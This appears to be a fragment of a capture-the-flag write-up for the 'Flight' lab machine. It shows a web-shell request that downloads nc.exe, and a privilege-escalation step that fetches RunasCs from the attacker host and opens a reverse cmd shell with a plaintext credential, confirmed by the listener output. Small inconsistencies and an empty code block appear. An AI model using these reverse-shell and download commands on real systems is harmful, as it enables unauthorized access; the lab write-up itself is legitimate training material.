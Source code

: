 
## Reverse shell
```php

```

```sh

http://school.flight.htb/styles/.php?cmd=curl+10.10.14.7:2222/nc.exe -o C:\Windows\Temp\nc64.exe
```
# Privilege Escalation
### RunCs
The [RunasCs](https://github.com/antonioCoco/RunasCs) project aims to create a binary like `runas.exe` but without limitations:

> - Allows explicit credentials
> - Works both if spawned from interactive process and from service process
> - Manage properly _DACL_ for _Window Stations_ and _Desktop_ for the creation of the new process
> - Uses more reliable create process functions like `CreateProcessAsUser()` and `CreateProcessWithTokenW()` if the calling process holds the required privileges (automatic detection)
> - Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no _UAC_ limitations)
> - Allows to bypass UAC when an administrator password is known (flag –bypass-uac)
> - Allows redirecting _stdin_, _stdout_ and _stderr_ to a remote host
> - It’s Open Source :)

I’ll download the latest release, host it with a Python web server, and upload it to Flight:

```powershell
C:\ProgramData>powershell -c wget 10.10.14.6/RunasCs.exe -outfile r.exe
```

Now I’ll invoke a cmd.exe as C.Bun using -r to redirect STDIN/STDOUT to my host:

```powershell
C:\ProgramData>.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.14.6:443 cmd
[*] Warning: Using function CreateProcessWithLogonW is not compatible with logon type 8. Reverting to logon type Interactive (2)...
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5ea78$\Default
[+] Async process 'cmd' with pid 4508 created and left in background.
```

With nc listening on my box, there’s a connection:

```sh
oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 444
Connection received on 10.10.11.187 49906
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
flight\c.bum
```
